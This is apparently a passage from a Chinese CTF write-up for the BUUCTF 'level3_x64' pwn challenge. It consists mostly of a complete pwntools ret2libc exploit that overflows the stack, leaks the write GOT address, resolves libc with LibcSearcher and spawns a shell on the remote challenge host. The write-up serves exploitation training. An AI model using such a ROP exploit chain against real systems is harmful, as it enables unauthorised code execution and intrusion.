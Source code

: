       ![image-20240629110253222](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406291102362.png)

      可以看到出read函数后，rdx的值仍为0x200，所以可以不用在给rdx赋值。

5. EXP：

   ``````python
   from pwn import *
   from LibcSearcher import *
   
   context(os='linux', arch='amd64', log_level='debug')
   
   io = remote("node5.buuoj.cn", 27094)
   elf = ELF("./level3_x64")
   got = elf.got['write']
   plt = elf.sym['write']
   print(hex(got),hex(plt))
   pop_si_r15_ret = 0x00000000004006b1
   pop_di_ret = 0x00000000004006b3
   ret_addr = 0x0000000000400499
   main_addr = 0x00000000004005E6
   
   io.recvuntil(b'Input:\n')
   #可以不用个rdx赋值，仅为rdi和rsi赋值即可
   payload = b"a"*(0x80+8) + p64(pop_di_ret)+p64(0x1)+p64(pop_si_r15_ret)+p64(got)+p64(0)+p64(plt)+p64(main_addr)
   io.sendline(payload) 
   addr = u64(io.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
   print(hex(addr))
   io.recvuntil(b'Input:\n')
   
   libc = LibcSearcher('write',addr)
   libc_base = addr - libc.dump('write')
   sys_addr = libc_base + libc.dump('system')
   str_bin = libc_base + libc.dump('str_bin_sh')
   print(hex(libc_base),hex(sys_addr),hex(str_bin))
   
   #第二次利用栈溢出
   payload = b'a'*(0x80+8)+p64(ret_addr)+p64(pop_di_ret)+p64(str_bin)+p64(sys_addr)
   io.sendline(payload)
   #io.sendline(b'cat flag')
   # 与远程交互
   io.interactive()
   
   ``````

   